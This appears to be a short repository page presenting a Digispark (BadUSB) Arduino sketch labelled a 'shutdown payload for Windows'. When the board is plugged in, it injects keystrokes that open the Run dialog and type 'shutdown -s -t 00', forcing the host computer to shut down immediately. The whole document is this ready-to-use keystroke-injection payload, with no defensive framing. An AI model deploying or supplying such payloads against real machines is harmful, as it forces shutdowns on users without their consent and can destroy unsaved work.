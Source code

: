 Fastest shutdown payload for Windows

(Runs only once)

  #include "DigiKeyboard.h"
  void setup() {
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(150);
    DigiKeyboard.print("shutdown -s -t 00");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
  }
  void loop() {
    //empty
  }